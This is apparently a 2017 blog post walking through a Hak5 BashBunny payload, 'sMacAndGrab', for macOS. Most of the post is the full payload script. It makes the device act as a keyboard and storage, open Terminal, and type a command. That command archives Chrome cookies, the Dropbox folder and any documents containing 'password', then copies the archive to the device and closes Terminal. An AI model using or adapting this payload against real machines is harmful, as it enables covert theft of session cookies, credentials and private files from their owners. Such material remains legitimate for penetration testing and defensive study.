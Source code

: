 +++
date = "2017-04-01T22:08:35-04:00"
title = "Creating BashBunny Payloads"
Description = "Creating Payloads for the Hak5 BashBunny"
menu = "posts"
+++


## What is it?

The [BashBunny](http://wiki.bashbunny.com/#!index.md) is an attack platform that allows attackers to
create payloads in Bash. The device can be scripted to enumerate as a HID (keyboard), mass storage,
serial, and Ethernet. This enables a multitude of attacks including thing like exfiltrating
documents over a network interface or stealing account hashes from locked computers.

## Creating a Payload

We want to create a payload that allows for easy exfiltration from macOS. We also don't want to
force the attacker to know the exact path of the files that are to be extracted; we should allow them
to create bash commands whose output returns a list of files that are to be exfilled.

~~~bash.prettyprint

# here we set an amber color to the LED so that the 
# attacker knows that the payload has begun executing
LED G R 500

# instruct the BashBunny to enumerate as both a keyboard and
# mass storage on the host computer (masOS)
ATTACKMODE HID STORAGE

# this creates a folder in the BashBunny's loot directory
# that will be used by our payload
mkdir -p /root/udisk/loot/sMacAndGrab

# enter the name of the volume that will be mounted
dev_name="BASHBUNNY"

# this is a variable that holds the path to which we will instruct
# the target to copy our desired files
lootdir="\"/Volumes/$dev_name/loot/sMacAndGrab\""

# in this section, we add files, directories, and unix commands
# which return lists of files. this text will be typed exactly
# in the macOS terminal. Because this is bash, we have to escape 
# bash characters so that they don't evaluate when the script runs, 
# but rather they're seen as simple text.
files_to_copy=(
"\"~/Library/Application Support/Google/Chrome/Default/Cookies\"" # Quote paths with spaces
"~/Dropbox"  # enter entire directories
"\$(grep -lr password ~/Documents)" # get all Documents with the word 'password'
)
~~~

It's important to remember that this is a bash script and if we don't want symbols like `$;|:~` to
be evaluated, but rather typed or passed to the victim, they must be escaped with a backslash.

In the second half of the payload, we're defining strings that are going to by typed by the
BashBunny on the victim computer. This is why you'll see it peppered with `\\`

~~~bash.prettyprint

# these command instruct the BashBunny to act as a keyboard and physically
# type the commands

# Command + Space to launch Spotlight
QUACK GUI SPACE
QUACK DELAY 1000

# Opens the Terminal program
QUACK STRING terminal
QUACK ENTER
QUACK DELAY 4000

# Types a command to compress all of the previously defined files to 
# the previously defined storage location
QUACK STRING tar -cf \$USER.tar.gz ${files_to_copy[*]}\; mv \$USER.tar.gz $lootdir\; killall Terminal
# $lootdir and $files_to_copy are not escaped because we want them expanded to the variables we set
QUACK ENTER

# sync the filesystem to the BashBunny can be safely removed
sync

# let the attacker know that they can remove the BashBunny
LED G
~~~

And that's that. If one follows the directions in the wiki posted at the beginning of this post for
loading this payload, you have a payload that creates automatic involuntary backups in a matter of
seconds.

I've submitted the code to the official [Hak5 BashBunny Payload]
(https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/SmacAndGrab)
repo as the payload sMacAndGrab. Enjoy!
